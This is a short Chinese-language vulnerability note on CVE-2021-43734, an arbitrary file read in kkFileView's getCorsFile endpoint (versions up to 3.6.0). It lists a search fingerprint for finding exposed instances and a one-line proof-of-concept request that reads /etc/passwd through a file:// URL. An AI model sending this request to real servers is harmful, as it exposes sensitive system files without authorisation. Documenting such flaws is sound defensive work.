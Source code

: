 # kkFileView getCorsFile 任意文件读取漏洞 CVE-2021-43734

## 漏洞描述

kkFileView getCorsFile 3.6.0 版本以下存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中的任意文件，获取服务器敏感信息

## 漏洞影响

```
kkFileView getCorsFile <= 3.6.0
```

## 网络测绘

```
body="kkFileView"
```

## 漏洞复现

主页面

![image-20220524172325491](./images/202205241723549.png)

验证POC

```
/getCorsFile?urlPath=file:///etc/passwd 
```

![image-20220524172414993](./images/202205241724070.png)